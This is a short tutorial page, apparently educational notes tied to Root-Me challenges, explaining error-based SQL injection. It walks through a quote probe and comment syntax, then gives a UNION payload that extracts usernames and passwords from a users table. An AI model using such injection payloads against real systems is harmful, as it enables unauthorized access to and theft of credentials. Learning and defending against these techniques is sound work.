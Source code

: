 # Error-based SQLi

[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)

<div class="row row-cols-lg-2"><div>

Error-based is the simplest SQL injection. It's an injection in which DBMS errors are displayed to the user.

The hacker can easily use the output to tweak the payload until they get what they want.
</div><div>
</div></div>

<hr class="sep-both">

## Error-based SQLi Explained

<div class="row row-cols-lg-2"><div>

1. We usually start with injecting a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we now know that an injection is possible.

<br>

2. We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

3. We add a space giving us the payload `' -- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write **any** SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `xxx' UNION Select username,password FROM users -- -` to get the list of usernames/passwords.

```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```

Refers to union-based payloads.
</div></div>